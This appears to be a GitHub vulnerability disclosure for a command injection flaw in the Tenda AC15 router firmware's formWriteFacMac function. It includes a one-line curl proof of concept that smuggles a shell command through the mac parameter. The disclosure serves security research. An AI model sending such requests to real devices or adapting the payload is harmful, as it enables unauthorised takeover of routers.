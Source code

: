 ## Tenda AC15 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC15
* Version: V15.03.05.19_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC15/US_AC15V1.0BR_V15.03.05.19_multi_TD01.zip

### Vulnerability details

Tenda AC15 V15.03.05.19_multi was found to contain a command injection vulnerability in the `formWriteFacMac` function via the `mac` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/WriteFacMac?mac=;touch /tmp/1.txt;
```

![image-20250413210610225](./img/3.png)
